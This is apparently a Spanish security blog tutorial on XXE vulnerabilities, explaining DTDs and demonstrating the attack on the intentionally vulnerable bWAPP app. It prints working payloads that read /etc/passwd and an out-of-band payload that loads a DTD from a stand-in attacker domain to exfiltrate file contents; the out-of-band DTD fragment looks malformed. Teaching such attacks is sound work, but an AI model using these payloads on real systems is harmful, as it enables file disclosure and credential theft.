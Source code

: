 +++
date = "2015-05-30"
title = "XXE - XML External Entity - El Nuevo SQLi"
author = "Javier Olmedo"
+++

[![/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_banner.png](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_banner.png)](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_banner.png)

**XXE (Xml eXternal Entity)** es un tipo de vulnerabilidad que se produce en aplicaciones que hacen uso de **«parsers»** XML. Es decir aplicaciones que reciben como entrada un documento XML y para procesarlo hacen uso de alguna librería de parseo como LibXML, Xerces, MiniDOM, SAX etc. El atacante entonces puede aprovechar esta vulnerabilidad y enviar un documento XML especialmente manipulado para conseguir que el parser XML divulgue información del sistema, consuma recursos en exceso, ejecute comandos u otras formas de explotación.

El ataque solo es posible cuando la forma de interpretar el XML **permite incluir entidades externas** debido a su mala configuración. Puede llevar también a la lectura de archivos locales, descubrimiento y mapeo de red interna, denegaciones de servicio, etc.

## ¿Que es un DTD?

Un DTD y como sus siglas lo indican (Definicion del tipo de documento), se encarga de decirle a el parser XML (motor XML) **como va a estar compuesto un fichero de este tipo**. Cada vez que un xml es cargado, **el que se ocupa de verificar si dicho fichero presenta una estructura correcta**, entre otras cosas, es el parser XML y lo hace primero consultando el DTD.

Los DTD pueden encontrarse dentro del documento.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE secsignal [
]>
```

Todo lo que se encuentra dentro del tag **[]** es parte del DTD.
O externos al mismo.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE secsignal SYSTEM "fichero.dtd" [
]>
```

Dentro de un DTD podemos realizar varias declaraciones.

Podemos leer más sobre DTD [Aqui](https://www.w3schools.com/dtd/).

## ¿Donde puede encontrarse esta vulnerabilidad?

Suele ser común encontrarla en los siguientes **Content-Types: text/xml, application/xml**.
Aunque también puede darse al parsear un documento Word (son muchos archivos .xml) unidos y comprimidos o en JSON que luego se parsea en forma de XML.

## ¿Cómo se explota XXE?

Se trata de **malformar las peticiones con XML** de forma que añadamos funcionalidades al intérprete de XML como leer un archivo local y enviar su contenido a un servidor externo (/etc/passwd).

Por ejemplo, una petición legítima estaría formada de la siguiente manera:

```bash
<forgot><username>admin</username></forgot>
```

Con las siguientes cabeceras:

```bash
POST /forgotpw HTTP/1.1
Host: testhtml5.vulnweb.com
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; rv:40.0) Gecko/20100101    Firefox/40.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://PAGINAVULNERABLE.COM
Content-Length: 43
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
```

Nuestro objetivo para comprobar si es vulnerable es incluir nuestras propias etiquetas XML, como por ejemplo:

```bash
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE etiqueta [
<!ELEMENT etiqueta ANY >
<!ENTITY entidad SYSTEM "file:///etc/passwd" >]><etiqueta>&entidad;</etiqueta>
```

De esta forma podremos leer cualquier archivo para el que el usuario que controla la aplicación tenga acceso, **llamar a cualquier binario** (ls, ping, ifconfig, nmap, rm, touch…. hay infinitas posibilidades), llamar a diferentes protocolos, como por ejemplo php://, ssh://, etc.

## Explotación práctica (demo)

Para realizar la demo he elegido una aplicación web que es vulnerable por diseño: bWAPP
Al acceder a la ruta vulnerable http://URL/bWAPP/xxe-1.php nos encontramos la siguiente aplicación web:

[![/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_001.png](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_001.png)](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_001.png)

Si llevamos a cabo la acción «deseada» por la web obtenemos una petición como la siguiente:

[![/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_002.png](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_002.png)](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_002.png)

Si queremos comprobar si es vulnerable trataremos de introducir una entidad externa y ver si nos devuelve un error o la procesa. Si hay error será que no es vulnerable, si por el contrario la procesa podremos seguir adelante con la explotación.

Para esta demo solicitaré a la aplicación el fichero /etc/passwd mediante entidades XML. Modificaré el contenido de la petición para añadirlo, quedando así:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE Header [ <!ENTITY valor SYSTEM "///etc/passwd"> ]>
<reset><login>&valor;</login><secret>Any bugs?</secret></reset>
```

[![/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_003.png](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_003.png)](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_003.png)

Si procesamos la petición veremos que hemos tenido éxito y que **hemos obtenido el contenido del fichero**:

[![/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_004.png](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_004.png)](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_004.png)

Ahora solo tendríamos que extender la explotación como quisiéramos, ya sea leyendo más archivos hasta obtener credenciales de acceso, escribiendo en archivos, llamando a protocolos, provocando un DoS al servidor…. sería dar rienda suelta a la imaginación.

Una de las opciones más usadas es solicitar al servidor un archivo como /etc/passwd y que envíe su contenido a un servidor en el que nosotros tengamos control de los logs o solicitar que se conecte a un .dtd que controlemos en nuestro servidor y que sea él quien le pida el contenido del archivo que deseamos leer.

Este podría ser nuestro DTD-PART

```xml
<!ENTITY % three SYSTEM "file:///etc/passwd">
<!ENTITY % two "<!ENTITY % four SYSTEM 'file:///"%three;"'>">
```

Y este el payload que enviamos a la aplicación:

```xml
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE test [
 <!ENTITY % one SYSTEM "http://DOMINIO-ATACANTE.COM/dtd-part" >
 %one;
 %two;
 %four;
 ]>
```

Quería dar las gracias a **Miguel Ángel Jimeno** ([@migueljimeno96[(https://x.com/migueljimeno96)]) , por permitirme publicar su post en la mayor parte de esta entrada, él ha sido quien ha redactado todo el proceso de explotación.

Podemos ver el post original en el foro de [Underc0de](https://underc0de.org/foro/bugs-y-exploits/entendiendo-y-explotando-xxe-(external-xml-entities)/).

Un Saludo y hasta la próxima.